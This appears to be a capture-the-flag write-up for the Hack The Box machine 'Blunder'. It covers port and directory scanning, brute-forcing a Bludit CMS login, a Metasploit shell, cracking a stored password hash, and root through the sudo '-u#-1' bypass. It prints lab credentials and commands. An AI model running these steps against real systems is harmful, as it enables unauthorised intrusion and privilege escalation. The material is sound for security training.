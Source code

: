 # NMap
# nmap -A -T5 -p- -o blunder.nmap blunder.htb

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-09 17:58 CEST
Nmap scan report for blunder.htb (10.10.10.191)
Host is up (0.052s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Infomir MAG-250 set-top box (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Linux 3.7 (90%), Ubiquiti AirOS 5.5.9 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%), Linux 2.6.32 - 3.13 (89%), Linux 3.0 - 3.2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   51.56 ms 10.10.14.1
2   51.72 ms blunder.htb (10.10.10.191)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.10 seconds
```

# Dir Buster
## gobuster dir -u blunder.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o blunder-dir.txt -t 50

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://blunder.htb
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/09 18:20:36 Starting gobuster
===============================================================
/about (Status: 200)
/0 (Status: 200)
/admin (Status: 301)
/usb (Status: 200)
/LICENSE (Status: 200)
```
going to ***/admin*** page there is the Bludit login page, looking at html source the version seems to be v 3.9.2
looking at exploitdb there is an [exploit][1] for this version.

## wfuzz -c -w /usr/share/wordlists/wfuzz/general/medium.txt --hc 404,403 -u "http://10.10.10.191/FUZZ.txt" -t 100
```
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.191/FUZZ.txt
Total requests: 1659

===================================================================
ID           Response   Lines    Word     Chars       Payload                                  
===================================================================

000001509:   200        4 L      23 W     118 Ch      "todo"                                   

Total time: 47.64041
Processed Requests: 1659
Filtered Requests: 1658
Requests/sec.: 34.82337
```
Looking at todo.txt we found:

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```
Maybe ***fergus*** is the username?!?
# Generate a wordlist from the site:

`cewl -w wordlists.txt -d 10 -m 1 http://10.10.10.191/`

# Brute force with Burp

First intercet a login request with proxy

![proxy](images/Screenshot_20200612_205159.png)

then send the request to the intruder and set the payload to inject the password field with our wordlist

![intruder](images/Screenshot_20200612_205313.png)

Start the attack and wait.
After a while I noticed that burpsuite doesn't automaticcaly refresh the CSRF token, so i write my own [script][3]
To test your regex you can use [Regex101][4]. 

Once we have done we found the password is ***RolandDeschain***

# Metasploit 

using metasploit with `***fergus***:***RolandDeschain***` we get a shell. Run `python -c "import pty;pty.spawn('/bin/bash')"` for having a tty.

# Bludit Files

Navigating inside the www folder, there is another installation of bludit with a database dir with some interesting files inside:

directory: /var/www/bludit-3.10.0a/bl-content/databases

```
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

# John Time
zcat /usr/share/wordlists/rockyou.txt.gz | john -stdin password.txt 

rockyou this time doesn't contain the password, but [MD5Decrypt][2] knows.
So we have the user:

***hugo:Password120***

# Priv ESC
Once logged in with Hugo `sudo -l` give us the keys for root:

```

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

So for root run `sudo -u#-1 /bin/bash`

[#]://
[1]: https://www.exploit-db.com/exploits/47699
[2]: https://md5decrypt.net/en/Sha1 
[3]: brute.py
[4]: https://regex101.com/

![htbbadge](https://www.hackthebox.eu/badge/image/272787)
